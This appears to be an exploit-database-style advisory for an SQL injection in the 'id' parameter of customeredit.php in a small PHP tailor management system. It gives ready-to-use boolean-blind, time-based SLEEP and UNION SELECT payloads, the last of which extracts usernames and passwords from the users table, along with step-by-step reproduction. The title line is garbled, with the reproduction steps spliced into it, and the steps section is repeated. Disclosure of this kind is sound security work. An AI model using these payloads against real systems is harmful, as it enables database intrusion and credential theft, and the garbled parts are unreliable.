



# Exploit Title: Tailor MS – SQL Injection in customeredit.php (## Steps to Reproduce

1. Browse to `http://localhost:8000/customeredit.php?id=1`.  
2. Intercept the request and inject the following payload into the `id` parameter:
    ```
    http://localhost:8000/customeredit.php?id=1' UNION ALL SELECT 1,username,3,password,5,6,7,8 from users-- -
    ```
3. Observe the extracted username and password displayed in the application (see screenshot above).
4. Confirm DBMS fingerprinting and data extraction as permitted by the app's DB privileges.//localhost:8000/customeredit.php?id=1`)

**Date:** 2025-08-11  
**Exploit Author:** Anonymous  
**Vendor Homepage:** https://www.sourcecodester.com  
**Software Link:** //www.sourcecodester.com/sites/default/files/download/Warren%20Daloyan/tailor.zip  
**Version:** 1.0  
**Tested on:** PHP 7.4 on Ubuntu 20.04  

---

## Summary

A SQL Injection vulnerability exists in the `customeredit.php` endpoint of **Tailor MS**. Unsanitized user input in the specified parameter is interpolated directly into an SQL query, allowing attackers to infer or extract data and, in some cases, execute stacked/time-based payloads.  
**Back-end DBMS (as detected):** MySQL >= 5.0.12 (MariaDB fork)  
**CWE:** CWE-89 (SQL Injection)  
**Severity:** High (placeholder — adjust once CVSS is computed)

## Affected Component & Parameter

### Affected Endpoint

- **URL:** `http://localhost:8000/customeredit.php?id=1`
- **HTTP Method:** GET
- **Vulnerable File:** `customeredit.php`
- **Parameter:** `id`
- **Vector Location:** GET

### Injection Techniques
- **Type:** boolean-based blind
  - **Title:** AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
  - **Payload:** `id=1' AND 2559=(SELECT (CASE WHEN (2559=2559) THEN 2559 ELSE (SELECT 1757 UNION SELECT 8575) END))-- -`
- **Type:** time-based blind
  - **Title:** MySQL >= 5.0.12 AND time-based blind (query SLEEP)
  - **Payload:** `id=1' AND (SELECT 8281 FROM (SELECT(SLEEP(5)))ygPp)-- kXlJ`
- **Type:** UNION query (exfiltration)
  - **Title:** UNION query to extract username and password via UNION SELECT - 8 columns
  - **Payload:**  
    ```
    http://localhost:8000/customeredit.php?id=1' UNION ALL SELECT 1,username,3,password,5,6,7,8 from users-- -
    ```


## Proof of Concept (Firefox Screenshot)



## SQLMap Summary




## Technical Description

The vulnerable parameter is reflected into the SQL statement without proper validation or prepared statements. Boolean-based blind, time-based blind (SLEEP), and/or UNION-based vectors were verified by sqlmap. This enables database enumeration and potential data exfiltration under the privileges of the application’s DB user.

## Impact

- Enumeration of database schemas, tables, and rows  
- Exposure of sensitive user/operational data  
- Potential lateral movement if credentials or session material are stored in DB

## Steps to Reproduce

1. Browse to `http://localhost:8000/customeredit.php?id=1`.  
2. Intercept the request and inject the provided payload(s) into parameter `customeredit.php?&<param>=...`.  
3. Observe conditional responses / time delays / injected row reflections per technique above.  
4. Confirm DBMS fingerprinting and data extraction as permitted by the app’s DB privileges.

## Vulnerable Code (Screenshot)




References  
OWASP: SQL Injection Prevention Cheat Sheet  
CWE-89: SQL Injection
